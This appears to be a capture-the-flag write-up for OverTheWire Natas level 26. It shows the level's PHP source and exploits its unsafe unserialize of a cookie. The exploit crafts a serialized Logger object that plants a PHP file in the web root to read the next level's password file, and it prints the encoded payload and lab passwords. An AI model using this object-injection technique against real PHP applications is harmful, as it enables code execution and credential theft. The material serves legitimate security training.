



# Level 26

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas26.natas.labs.overthewire.org](http://natas26.natas.labs.overthewire.org)
- username: `natas26`
- password: `8A506rfIAXbKKk68yJeuTuRq4UfcK70k`

## Solution



Let's see the sourcecode:

```php
...
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla

    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";

            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }

        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }

        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }

    function showImage($filename){
        if(file_exists($filename))
            echo "";
    }

    function drawImage($filename){
        $img=imagecreatetruecolor(400,300);
        drawFromUserdata($img);
        imagepng($img,$filename);
        imagedestroy($img);
    }

    function drawFromUserdata($img){
        if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){

            $color=imagecolorallocate($img,0xff,0x12,0x1c);
            imageline($img,$_GET["x1"], $_GET["y1"],
                            $_GET["x2"], $_GET["y2"], $color);
        }

        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) &&
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) &&
                        array_key_exists("y2", $object)){

                        $color=imagecolorallocate($img,0xff,0x12,0x1c);
                        imageline($img,$object["x1"],$object["y1"],
                                $object["x2"] ,$object["y2"] ,$color);

                    }
        }
    }

    function storeData(){
        $new_object=array();

        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }

        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }

        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
?>
...
```

So, to begin with, let's understand what the code does. It will draw an image either from `array_key_exists("x1", $_GET)` or `array_key_exists("drawing", $_COOKIE)`, that means either from parameters or from cookie. But initially we need to choose some `x1`, `x2`, `y1` and `y2` in the browser to create the first line, which will be serialized then and saved in a cookie `setcookie("drawing",base64_encode(serialize($drawing)));`. Let's try to make it:



Let's analyze our cookie now with [PHP Online Compiler](https://www.programiz.com/php/online-compiler/):



As we can see, it's array of our chosen points. Good. Now let's review the `Logger` class: 

```php
class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct($file){
        // initialise variables
        $this->initMsg="#--session started--#\n";
        $this->exitMsg="#--session end--#\n";
        $this->logFile = "/tmp/natas26_" . $file . ".log";

        // write initial message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$this->initMsg);
        fclose($fd);
    }

    function log($msg){
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$msg."\n");
        fclose($fd);
    }

    function __destruct(){
        // write exit message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$this->exitMsg);
        fclose($fd);
    }
}
```

It writes `initMsg` and `exitMsg` content to the file declared in `logFile`. When we serialize an object in `PHP`, only the data within the object (like the values of its properties) is saved, not the structure or methods of the class itself. If we want to manipulate or exploit a system using a serialized object, we only need to create an object of the required class, set the properties we need, and then serialize it. We can do this by writing a separate, small program that creates the object, sets its properties as desired, and outputs the serialized string. We also know, that application can access `img` directory, because it stores there files by default:

```php
<?php
class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct() {
        $this->logFile = "/var/www/natas/natas26/img/pwned.php";
        $this->initMsg = "<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->exitMsg = "Got it :)\n";
    }
}

$logger = new Logger();

$serialized = serialize($logger);
print base64_encode($serialized);
?>
```

The output is:

```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNjoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvcHduZWQucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6NjM6Ijw/cGhwIGVjaG8gZmlsZV9nZXRfY29udGVudHMoJy9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Jyk7ID8+CiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjEwOiJHb3QgaXQgOikKIjt9
```

So let's set this as `drawing` cookie and access [http://natas26.natas.labs.overthewire.org/img/pwned.php](http://natas26.natas.labs.overthewire.org/img/pwned.php):


## Password

`natas27`:`PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3`

*Created by [bu19akov](https://github.com/bu19akov)*